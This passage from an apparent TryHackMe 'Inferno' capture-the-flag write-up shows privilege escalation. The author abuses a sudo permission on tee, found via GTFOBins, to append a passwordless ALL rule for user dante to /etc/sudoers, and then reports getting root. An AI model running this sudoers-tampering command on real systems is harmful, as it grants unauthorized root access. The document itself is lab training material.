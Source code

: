 
So  I tried sudo -l.

![](/TryHackMe/Inferno/perm.png)


So I searched this in [GTFOBins](https://gtfobins.github.io/) and got this.



```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```

So for exploit we do this 

```
LFILE=/etc/sudoers
echo "dante  ALL=(ALL) NOPASSWD:ALL" | sudo tee -a "$LFILE"
```

This gives user dante the permission to execute anything without password.


![](/TryHackMe/Inferno/root.png)



Hence we rooted!.




